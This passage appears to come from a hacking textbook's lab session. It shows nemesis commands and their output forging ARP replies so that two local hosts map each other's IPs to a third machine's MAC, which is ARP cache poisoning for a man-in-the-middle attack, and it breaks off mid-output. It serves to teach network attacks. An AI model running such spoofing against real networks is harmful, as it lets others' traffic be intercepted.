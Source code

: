 NEMESIS options:
  To display options, specify a mode with the option "help".

reader@hacking:~/booksrc $ nemesis arp help

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

ARP/RARP Usage:
 arp [-v (verbose)] [options]

ARP/RARP Options:
  -S &lt;Source IP address&gt;
  -D &lt;Destination IP address&gt;
  -h &lt;Sender MAC address within ARP frame&gt;
  -m &lt;Target MAC address within ARP frame&gt;
  -s &lt;Solaris style ARP requests with target hardware addess set to broadcast&gt;
  -r ({ARP,RARP} REPLY enable)
  -R (RARP enable)
  -P &lt;Payload file&gt;

Data Link Options:
  -d &lt;Ethernet device name&gt;
  -H &lt;Source MAC address&gt;
  -M &lt;Destination MAC address&gt;

You must define a Source and Destination IP address.

reader@hacking:~/booksrc $ sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D
192.168.0.118 -h 00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -
M 00:C0:F0:79:3D:30

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

               [MAC] 00:00:AD:D1:C7:ED > 00:C0:F0:79:3D:30
     [Ethernet type] ARP (0x0806)
  
  [Protocol addr:IP] 192.168.0.1 > 192.168.0.118
 [Hardware addr:MAC] 00:00:AD:D1:C7:ED > 00:C0:F0:79:3D:30
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4

Wrote 42 byte unicast ARP request packet through linktype DLT_EN10MB

ARP Packet Injected
reader@hacking:~/booksrc $ sudo nemesis arp -v -r -d eth0 -S 192.168.0.118 -D
192.168.0.1 -h 00:00:AD:D1:C7:ED -m 00:50:18:00:0F:01 -H 00:00:AD:D1:C7:ED -M
00:50:18:00:0F:01

ARP/RARP Packet Injection -=- The NEMESIS Project Version 1.4 (Build 26)

              [MAC] 00:00:AD:D1:C7:ED > 00:50:18:00:0F:01
    [Ethernet type] ARP (0x0806)

 [Protocol addr:IP] 192.168.0.118 > 192.168.0.1
[Hardware addr:MAC] 00:00:AD:D1:C7:ED > 00:50:18:00:0F:01
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4
